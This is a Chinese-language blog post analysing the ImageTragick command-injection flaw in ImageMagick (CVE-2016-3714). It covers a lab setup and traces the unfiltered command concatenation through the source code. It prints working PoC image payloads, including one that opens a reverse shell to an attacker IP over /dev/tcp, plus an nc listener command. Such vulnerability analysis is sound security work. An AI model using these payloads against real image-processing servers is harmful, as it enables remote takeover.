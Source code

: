 ```yaml
---
layout: post
title:  "ImageMagick远程代码执行漏洞分析"
date:   2017-04-27 10:02:01 +0800
categories: 漏洞分析
tag: 命令执行漏洞
---
```


* content
{:toc}




![ImageMagick]({{ '/styles/images/imagemagick/imagemagick.png' | prepend: site.baseurl  }})

## 1.&emsp;漏洞描述 ##

* 漏洞编号： CVE-2016-3714
* 发现人员： Slack安全工程师Ryan Hube
* 漏洞简述： 产生原因是因为字符过滤不严谨所导致的执行代码. 对于文件名传递给后端的命令过滤不足,导致允许多种文件格式转换过程中远程执行代码。
* 影响版本： 
	* ImageMagick6.5.7-8 2012-08-17
	* ImageMagick6.7.7-10 2014-03-06
	* 低版本至6.9.3-9 released 2016-04-30 

## 2.&emsp;漏洞分析 ##

### 2.1&emsp;漏洞介绍 ###

&emsp;&emsp;ImageMagick是一套功能强大、稳定而且开源的工具集和开发包,可以用来读、写和处理超过89种基本格式的图片文件,包括流行的TIFF、JPEG、GIF、 PNG、PDF以及PhotoCD等格式。众多的网站平台都是用他渲染处理图片。可惜在3号时被公开了一些列漏洞,其中一个漏洞可导致远程执行代码(RCE),如果你处理用户提交的图片。该漏洞是针对在野外使用此漏洞。许多图像处理插件依赖于ImageMagick库,包括但不限于PHP的imagick,Ruby的rmagick和paperclip,以及NodeJS的ImageMagick等。

&emsp;&emsp;产生原因是因为字符过滤不严谨所导致的执行代码. 对于文件名传递给后端的命令过滤不足,导致允许多种文件格式转换过程中远程执行代码。

&emsp;&emsp;据ImageMagick官方，目前程序存在一处远程命令执行漏洞（CVE-2016-3714），当其处理的上传图片带有攻击代码时，可远程实现远程命令执行，进而可能控制服务器，此漏洞被命名为ImageTragick。

### 2.2&emsp;漏洞环境搭建 ###

1. 首先我们需要一台Linux虚拟机（这里我用的是Ubuntu14.04）
2. 找到相应的有漏洞的ImageMagick版本源码进行源码安装**注意：这个进行源码安装时可能会存在安装时先安装他的依赖包否则安装会报错**
3. 安装完成，使用命令`convert -version`查看安装是否成功，并且查看版本是否正确![ImageMagick]({{ '/styles/images/imagemagick/1.png' | prepend: site.baseurl  }})
4. 要实现远程代码执行，还需要自己搭建一个服务器
5. 安装Apache+php，实现一个上传图片的网站，同时调用imagemagick的convert命令实现缩略图功能。

### 2.3&emsp;漏洞验证 ###
#### 2.3.1&emsp;本地代码执行验证 ####

漏洞利用POC：

	push graphic-context
	viewbox 0 0 640 480
	fill 'url(https://evalbug.com/"|whoami")'
	pop graphic-context

把POC代码编辑到poc.png图片中，然后执行convert命令：

	 convert poc.png 1.png

查看返回结果：
![ImageMagick]({{ '/styles/images/imagemagick/2.png' | prepend: site.baseurl  }})
可以看到命令`whoami`已经执行并且返回出了结果。同理可以把whoami换成其他你想执行的任意命令。

#### 2.3.2&emsp;远程代码执行验证 ####

1. 访问自己搭建的上传图片网站进行上传图片操作
![ImageMagick]({{ '/styles/images/imagemagick/3.png' | prepend: site.baseurl  }})

2. 构造反弹shell命令POC:
	
		push graphic-context
		viewbox 0 0 640 480
		fill 'url(https://example.com/1.jpg"|bash -i >& /dev/tcp/192.168.1.79/2333 0>&1")'
		pop graphic-context"
3. 将POC存入test.png图片中，进行图片上传操作，同时在你的攻击机（192.168.1.79）中输入命令`nc -ll -v -p 2333`对2333端口进行监听
4. 上传图片查看shell是否已经反弹

![ImageMagick]({{ '/styles/images/imagemagick/4.png' | prepend: site.baseurl  }})

## 3.&emsp;CVE-2016-3714漏洞分析 ##

### 3.1&emsp;源代码分析 ###

&emsp;&emsp;在ImageTragick中，众所周知，其实被处理的文件并不是一个图片，而是一段被IMK处理的“脚本”。在软件中对fill关键字的处理如下：
![ImageMagick]({{ '/styles/images/imagemagick/5.png' | prepend: site.baseurl  }})

可以看到该处在进行了一系列判断后，调用了ReadImage函数，此时：
![ImageMagick]({{ '/styles/images/imagemagick/6.png' | prepend: site.baseurl  }})

从图中可以看出，drawImage传给ReadImage的参数还仍然是我们定义的参数字符串，

在文件magick/consititute.c中的352-767行定义了ReadImage函数，而该函数中在523行调用了InvokeDelegate函数：
![ImageMagick]({{ '/styles/images/imagemagick/7.png' | prepend: site.baseurl  }})

同时在Ubuntu图中，可以看到该处调用INVOKEDELEGATE函数时的参数中，把开头的https给去掉了。InvokeDelegate函数定义在magick/delegate.c中的1075-1327行，其中可看到代码又调用了ExternalDelegateCommand函数：
![ImageMagick]({{ '/styles/images/imagemagick/8.png' | prepend: site.baseurl  }})

从Ubuntu图中可看到传给ExternalDelegateCommand函数中的command参数已经变成了拼接后的字符串，并且是一个完整的管道符号链接的两条命令。往上看代码可发现command参数主要是InterpretImageProperties函数的返回值，而InterpretImageProperties函数只是负责把传入的字符串的特殊字符进行转义、外加字符串处理（比如对%exif %filename %basename等字符串的处理，产生类似正则表达式引擎的效果）。
![ImageMagick]({{ '/styles/images/imagemagick/9.png' | prepend: site.baseurl  }})

这里，会来到一个比较有意思的地方：

![ImageMagick]({{ '/styles/images/imagemagick/10.png' | prepend: site.baseurl  }})

该处会调用GetMagickPropertyLetter函数，我们跟进去看一下：
![ImageMagick]({{ '/styles/images/imagemagick/11.png' | prepend: site.baseurl  }})

也就是该函数会对传进来的字符返回特定的字符串。在KALI图中已经看到，传递进来的参数是：curl –s –k –L –o “xxx” https://%M，所以这里要替换的就是大写M：

![ImageMagick]({{ '/styles/images/imagemagick/12.png' | prepend: site.baseurl  }})

可看到这里是直接返回了image->magick_filename，其实就是那串没了https:开头的URL，所以返回给GetMagickPropertyLetter函数的就是URL，而后如图所GetMagickPropertyLetter函数直接把返回内容AppendString2Text了。


**这就真的是直接拼接出来了带有恶意命令的字符串，所以其实自始至终都没有一个对字符串的过滤操作。**


当从InterpretImageProperties函数返回后，就进入了ExternalDelegateCommand函数，而参数也已经是注入了额外命令的CURL字符串。
![ImageMagick]({{ '/styles/images/imagemagick/13.png' | prepend: site.baseurl  }})

在ExternalDelegateCommand函数内，command会被直接system执行起来而导致命令注入。


另外，在InterpretImageProperties函数的代码中，可以看到对&lt &gt等做出了处理，将实体字符转义为原字符，所以在其他的处理脚本委托时，不排除引起跨站的可能性。并且在代码中，还发现MP4也是相同的函数引用路径对MP4文件的URL进行获取数据，所以MP4那个利用原理相同。另外，**代码中还发现很多方式的委托相互交叉引用，相信还有其他的利用方式，有待发掘。**

### 3.2&emsp;漏洞利用点 ###

所以我们可以构造一个.mvg格式的图片（但文件名可以不为.mvg，比如下图中包含payload的文件的文件名为vul.gif，而ImageMagick会根据其内容识别为mvg图片），并在https://后面闭合双引号，写入自己要执行的命令：

	push graphic-context
	viewbox 0 0 640 480
	fill 'url(https://"|id; ")'
	pop graphic-context

这样，ImageMagick在正常执行图片转换、处理的时候就会触发漏洞。

## 4.&emsp;参考资料 ##

* [ImageMagick 命令执行漏洞 (ImageTragick)](https://www.seebug.org/vuldb/ssvid-91446 "https://www.seebug.org/vuldb/ssvid-91446")
* [[深度技术分析] ImageTragick漏洞原理](http://mp.weixin.qq.com/s?__biz=MzAwNDE4Mzc1NA==&mid=503340500&idx=1&sn=00b91865cd38d402571ffc6deeb04269&scene=23&srcid=0507KTeMDHh4Hq2A9lMrPhrR#rd "http://mp.weixin.qq.com/s?__biz=MzAwNDE4Mzc1NA==&mid=503340500&idx=1&sn=00b91865cd38d402571ffc6deeb04269&scene=23&srcid=0507KTeMDHh4Hq2A9lMrPhrR#rd")
* [CVE-2016-3714ImageMagick远程执行漏洞修复建议](http://bobao.360.cn/learning/detail/2862.html "http://bobao.360.cn/learning/detail/2862.html")
* [ImageMagick（CVE-2016-3714）执行过程，漏洞分析以及修复方案](http://www.freebuf.com/vuls/104048.html "http://www.freebuf.com/vuls/104048.html")

